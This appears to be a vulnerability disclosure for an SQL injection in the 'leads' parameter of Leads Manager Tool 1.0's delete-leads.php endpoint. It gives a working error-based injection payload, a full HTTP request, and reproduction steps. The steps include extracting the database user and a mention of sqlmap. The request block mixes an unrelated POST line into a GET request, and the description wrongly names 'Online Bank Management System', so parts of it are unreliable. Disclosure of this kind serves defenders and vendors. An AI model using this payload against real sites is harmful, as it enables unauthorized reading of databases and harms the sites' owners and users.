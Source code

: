 # Leads Manager Tool - leads.php 'leads' SQL inject

#### Exploit Title: Leads Manager Tool - leads.php 'leads' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php/17510/leads-manager-tool-using-php-and-mysql-source-code.html

#### Software Link:https://www.sourcecodester.com/download-code?nid=17510&title=Leads+Manager+Tool+Using+PHP+and+MySQL+with+Source+Code

#### Version: Leads Manager Tool 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Online Bank Management System does not filter the content correctly at the "endpoint/delete-leads.php" parameter, resulting in the generation of SQL injection.

#### Payload used:

```POST /login.php HTTP/1.1
GET /endpoint/delete-leads.php?leads=7'%20AND%20GTID_SUBSET(CONCAT(0x7170716b71,(SELECT%20user()),0x716a6b7871),4674)--%20nxwp HTTP/1.1
Host: 192.168.67.35:8093
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

#### Proof of Concept

1、Visit the homepage, click to delete the entry, and after capturing the package, find that the file used is delete-leads.php

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Leads-Manager-Tool/images/sql.png)

2、Upon reviewing the source code, it was discovered that the lead parameter was directly concatenated into the SQL statement

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Leads-Manager-Tool/images/sql2.png)

4、Construct error injection, annotate database username, and successfully reproduce SQL injection vulnerability.

payload:`leads=7'%20AND%20GTID_SUBSET(CONCAT(0x7170716b71,(SELECT%20user()),0x716a6b7871),4674)--%20nxwp`

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Leads-Manager-Tool/images/sql1.png)

5、You can also directly use the sqlmap tool to run the results

![image](https://github.com/joinia/webray.com.cn/blob/main/Leads-Manager-Tool/images/sql3.png)
